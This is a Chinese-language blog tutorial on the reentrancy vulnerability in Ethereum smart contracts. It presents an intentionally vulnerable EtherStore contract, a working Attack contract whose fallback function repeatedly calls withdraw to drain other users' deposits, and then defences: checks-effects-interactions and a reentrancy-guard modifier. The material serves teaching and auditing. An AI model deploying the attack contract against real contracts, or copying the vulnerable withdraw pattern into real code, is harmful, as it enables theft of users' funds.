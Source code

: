 ```yaml
---
date: 2022-06-17
layout: post
title: 重入漏洞分析
description: 详解重入漏洞的原理和攻击方法
image: https://modash.blob.core.windows.net/uploads/855eed72-b05b-4e03-a8e2-28b428098b00?sv=2018-03-28&sr=b&sig=iMxYjTHMeVWtm6kNzJ%2B5aaREUZPfrpy7CcFo9wRk8Z4%3D&st=2022-06-22T03%3A05%3A18Z&se=2022-06-22T06%3A10%3A18Z&sp=r&rscc=max-age%3D10800%2Cprivate
optimized_image: https://modash.blob.core.windows.net/uploads/855eed72-b05b-4e03-a8e2-28b428098b00?sv=2018-03-28&sr=b&sig=iMxYjTHMeVWtm6kNzJ%2B5aaREUZPfrpy7CcFo9wRk8Z4%3D&st=2022-06-22T03%3A05%3A18Z&se=2022-06-22T06%3A10%3A18Z&sp=r&rscc=max-age%3D10800%2Cprivate
category: study
tags:
 - solidity
 - contract security
 - vulnerability analyse
author: aventusc
---
```


### 前置知识

以太坊智能合约的特点之一是合约之间可以进行相互间的外部调用。同时，以太坊的转账不仅仅局限于外部账户，合约账户同样可以拥有以太并进行转账等操作，且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用。

**发送以太的方式：**

- `transfer` (2300 gas, 抛出错误)
- `send` (2300 gas, 返回布尔值)
- `call` (转发所有 gas 或设置 gas，返回布尔值)

*注：括号中是这个方法的执行操作，他们的第一个返回值都要么是布尔值要么是抛出错误。*

**接收以太的方式：**

接收 Ether 的合约**必须至少**具有以下函数之一

- `receive() external payable`
- `fallback() external payable`

*如果 `msg.data` 为空，则调用 `receive()` ，否则调用 `fallback()`。*

我们先给重入漏洞下个定义：可以认为合约中所有的外部调用都是不安全的，都有可能存在重入漏洞。例如：如果外部调用的目标是一个攻击者可以控制的**恶意合约A**，那么当**被攻击的合约B**在调用**恶意合约A**的时候攻击者可以执行**恶意的逻辑C**然后再重新进入到**被攻击合约B**的内部，通过这样的方式来发起一笔非预期的外部调用，从而影响**被攻击合约B**正常的执行逻辑。

### 漏洞示例

举个例子来对重入攻击的原理进行分析：

下面面的代码：`EtherStore` 就是个普通的充提币的合约，凭什么说他有重入攻击呢？我们来看这个合约的 `withdraw` 函数，这个函数中的转账操作有一个外部调用（msg.sender.call{value: bal}），所以我们就可以认为这个合约是可能有重入漏洞的，但是具体能否产生危害还需要更深入的分析：

1. 所有的外部调用都是不安全的且合约在接收以太的时候会触发 `fallback` 函数执行相应的逻辑，这是一种隐藏的外部调用，这种隐藏的外部调用是否会造成危害呢？
2. 我们可以看到在 `withdraw` 函数中是先执行外部调用进行转账后才将账户余额清零的，那我们可不可以在转账外部调用的时候构造一个恶意的逻辑合约在合约执行 `balance[msg.sender]=0` 之前一直循环调用 `withdraw` 函数一直提币从而将合约账户清空呢？

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

/*
我们看到 EtherStore 合约是一个充提合约，我们可以在其中充提以太。
该合约会受到重入攻击
让我们看看为什么。

1. 部署 EtherStore 合约；
2. 用户 1（Alice）和用户 2（Bob）都分别将 1 个以太币充值到 EtherStore 合约中；
3. 攻击者 Eve 部署 Attack 合约时传入 EtherStore 合约的地址；
4. 攻击者 Eve 调用 Attack.attack 函数，Attack.attack 又调用 EtherStore.deposit 函数，
    充值 1 个以太币到 EtherStore 合约中，此时 EtherStore 合约中共有 3 个以太，
    分别为 Alice、Bob 的 2 个以太和攻击者 Eve 刚刚充值进去的 1 个以太。
    然后 Attack.attack 又调用 EtherStore.withdraw 函数将自己刚刚充值的以太取出，
    此时 EtherStore 合约中就只剩下 Alice、Bob 的 2 个以太了；

接下来会发送什么？
当 Attack.attack 调用 EtherStore.withdraw 提取了先前 Eve 充值的 1 个以太时会触发 Attack.fallback 函数。
这时只要 EtherStore 合约中的以太大于或等于 1 Attack.fallback 就会一直调用 EtherStore.withdraw 函数将 EtherStore 合约中的以太提取到 Attack 合约中，直到 EtherStore 合约中的以太小于 1 。
这样攻击者 Eve 会得到 EtherStore 合约中剩下的 2 个以太币（Alice、Bob 充值的两枚以太币）。

下面是攻击者的函数调用流程：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}(""); //选择性处理多返回值，将
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### 修复建议

1. 作为开发人员

看了上面的攻击手法相信大家对重入漏洞都会有一个自己的认知，但是只会攻击可不行，我们的目的是为了防御，那么作为开发人员如何避免写出漏洞代码还有作为审计人员如何快速发现问题代码呢，下面我们就以这两个身份来分析如何防御重入漏洞和如何在代码中快速找出重入漏洞：

- 写代码时需要遵循先判断，后写入变量在进行外部调用的编码规范（Checks-Effects-Interactions）；
- 加入防重入锁。

下面是一个防重入锁的代码示例：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```

1. 作为审计人员

作为审计人员我们需要关注的是重入漏洞的特征：所有涉及到外部合约调用的代码位置都是不安全的。这样在审计过程中需要重点关注外部调用，然后推演外部调用可能产生的危害，这样就能判断这个地方是否会因为重入点而产生危害。
